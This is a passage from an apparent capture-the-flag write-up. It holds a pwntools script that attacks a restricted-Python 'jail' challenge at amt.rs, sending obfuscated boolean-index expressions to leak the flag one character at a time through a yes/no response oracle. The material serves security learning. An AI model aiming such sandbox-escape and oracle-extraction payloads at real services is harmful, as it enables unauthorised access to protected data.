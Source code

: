 (again this is just the partial flag). It looks like the flag starts as "le_elite", so let's code in the corresponding indices for 'l' and 'i'.

```python
from pwn import *

io = remote('amt.rs', 31672)

true_expr = '[_==_][_!=_]'
true_expr_plus = true_expr + '+'


for n in range(150):
    for c in 'qwryuopasdfghjkzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_':
        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]=='{c}']")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print(c,end='')
            break
    else:
        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]==_[{true_expr_plus*2+true_expr}]]")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print('t',end='')
            continue

        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]==_[{true_expr_plus*3+true_expr}]]")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print('e',end='')
            continue

        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]==_[{true_expr_plus*15+true_expr}]]")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print('l',end='')
            continue

        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]==_[{true_expr_plus*16+true_expr}]]")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print('i',end='')
            continue

        print(' ', end='')
```
